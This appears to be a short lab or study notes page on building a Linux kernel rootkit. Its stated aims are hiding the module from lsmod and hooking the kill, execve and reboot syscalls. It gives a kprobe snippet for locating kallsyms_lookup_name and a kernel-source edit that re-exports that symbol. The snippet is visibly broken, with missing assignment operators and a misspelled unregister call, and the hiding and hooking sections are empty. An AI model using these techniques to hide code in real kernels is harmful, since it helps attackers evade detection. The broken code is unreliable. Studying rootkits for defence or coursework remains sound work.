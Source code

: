 # Part2: Rootkit

- Hide rootkit from `lsmod`
- Hook syscall

## Hide Rootkit

## Hook syscall

- kill 
- execve
- reboot

### How to hook original syscall?

#### Method 1: kprobe

Add the following code to `rootkit.c`:

```c
#include <linux/kprobes.h>
static struct kprobe kp = {
    .symbol_name "kallsyms_lookup_name"
};

typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
kallsyms_lookup_name_t kallsyms_lookup_name;

/* register the kprobe */
register_kprobe(&kp);

/* assign kallsyms_lookup_name symbol to kp.addr */
kallsyms_lookup_name (kallsyms_lookup_name_t) kp.addr;

/* done with the kprobe, so unregister it */
uregister_kprobe(&kp);
```

#### Method 2: Modify kernel

After `kernel 5.7`, it does not export `kallsyms_lookup_name` by default.
Add this line to `kernel/kallsyms.c:268`

```sh
EXPORT_SYMBOL_GPL(kallsyms_lookup_name);
```

## Links

- https://linux-kernel-labs.github.io/refs/heads/master/labs/device_drivers.html
- https://xcellerator.github.io/posts/linux_rootkits_01/
- https://xcellerator.github.io/posts/linux_rootkits_02/
- https://xcellerator.github.io/posts/linux_rootkits_05/
- https://xcellerator.github.io/posts/linux_rootkits_11/